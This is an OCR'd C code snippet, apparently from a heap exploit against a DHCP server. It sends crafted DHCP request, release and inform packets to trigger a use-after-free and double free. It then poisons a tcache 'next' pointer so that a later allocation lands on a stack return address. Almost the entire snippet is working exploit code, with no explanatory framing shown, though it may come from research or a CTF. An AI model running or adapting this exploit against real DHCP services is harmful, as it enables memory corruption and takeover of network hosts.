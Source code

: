 ```c
    size_t buf_len = 0;
    dhcp_req_t req[4] = { 0, };
    dhcp_req_t tmp_req = { 0, };

    buf = malloc(0x1000);
    for (size_t i = 0; i < 3; i++) {
        req[i].addr_in.sin_addr.s_addr = src_addr_in.sin_addr.s_addr + htonl(i+1);
        req[i].uid_type = 0;
        memset(req[i].uid, '0'+i, 0x47);
        req[i].uid_len = strlen(req[i].uid);
    }

    // malloc 0x50 chunk0-2
    for (size_t i = 0; i < 3; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_request_packet(buf, &buf_len, req[i]);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc 0x50 chunks.\n");
    
    // free chunk0
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // alloc and free chunk0 (UAF)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_request_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);

    // free chunk0 (double free)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // fake 0x50 tcache next
    memset(&tmp_req, 0, sizeof(dhcp_req_t));
    tmp_req.addr_in.sin_addr.s_addr = req[2].addr_in.sin_addr.s_addr;
    tmp_req.uid_len = 0x47;

    uint64_t ret_addr = stack_addr - 0x20;
    tmp_req.uid_type = ret_addr&0xff;
    *(uint64_t *)tmp_req.uid = ret_addr>>8;
    
    for (size_t i = 0; i < 2; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_inform_packet(buf, &buf_len, tmp_req);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc chunk0, fake next.\n");
    // printf("Enter to continue...");
```